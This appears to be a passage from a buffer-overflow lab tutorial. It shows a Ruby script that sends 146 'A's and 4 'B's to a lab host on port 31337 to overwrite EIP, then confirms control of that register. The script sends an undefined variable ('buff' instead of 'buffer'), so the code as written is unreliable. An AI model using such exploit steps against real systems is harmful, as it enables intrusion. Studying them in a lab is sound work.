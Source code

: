 Since we know that we can own EIP at 146 bytes, let's give it a try:
```Ruby
buffer = "A"*146
buffer += "B" * 4
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
![Overwrite EIP](overwriteEIP.png)  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
